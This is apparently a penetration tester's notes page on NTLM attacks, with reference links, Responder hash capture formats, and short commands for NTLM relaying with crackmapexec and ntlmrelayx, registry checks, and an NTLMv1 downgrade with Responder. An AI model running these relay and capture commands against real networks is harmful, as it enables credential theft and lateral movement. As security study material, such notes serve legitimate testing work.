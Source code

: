 # NTLM

* [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/)




## Responder Capture Structure

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```

* [https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.




## NTLM Relay

* [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
* [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
* [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
* [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [[PDF] Lateral Movement using Credentials Relaying (taso_x)](https://drive.google.com/file/d/1t8akbdgan7i9Rw0tFEIP223CmHFlTRCH/view?usp=sharing)

Generate relay list with cme and enumerate local admins when relaying

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```




## NTLMv1 Downgrade

* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
* [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
* [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)
* [https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

* [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) - `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`
* [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm) - `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0`

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $value)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder (use Printer Bug to coerce the authentication, for example):

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```
